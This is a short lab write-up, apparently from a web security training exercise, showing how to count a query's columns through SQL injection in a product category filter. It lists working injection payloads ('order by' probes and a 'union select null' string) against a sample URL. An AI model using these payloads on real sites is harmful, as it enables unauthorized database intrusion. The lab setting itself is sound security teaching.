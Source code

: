 # SQL injection UNION attack, determining the number of columns returned by the query
# Objective
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.\
\
To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

# Solution
`/filter?category=Gifts’` —> Application is vulnerable 

## Determining the number of columns
`/filter?category=Gifts' order by 1--` \
`/filter?category=Gifts' order by 2--` \
`/filter?category=Gifts' order by 3--` \
`/filter?category=Gifts' order by 4--` -> Error  \
`/filter?category=Gifts' union select null, null, null--` -> Number of columns = 3

